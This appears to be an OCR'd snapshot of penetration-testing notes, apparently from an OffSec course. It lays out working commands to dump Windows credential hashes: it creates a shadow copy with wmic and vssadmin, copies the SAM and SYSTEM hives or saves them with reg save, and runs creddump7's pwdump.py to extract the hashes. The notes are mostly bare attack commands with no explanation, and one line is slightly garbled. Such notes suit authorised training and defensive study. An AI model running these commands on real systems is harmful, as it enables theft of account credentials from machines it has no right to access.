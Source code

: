 # Create shadowcopy
```
wmic shadowcopy call create Volume='C:\'
vssadmin list shadows
```
# Copy files
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system
```
## Or
```
reg save HKLM\sam C:\users\offsec.corp1\Downloads\sam
reg save HKLM\system C:\users\offsec.corp1\Downloads\system
```
# Decrypt
## Python3 port sudo git clone https://github.com/ict/creddump7.git
```
python3 pwdump.py /home/kali/data/system1 /home/kali/data/sam1 
```
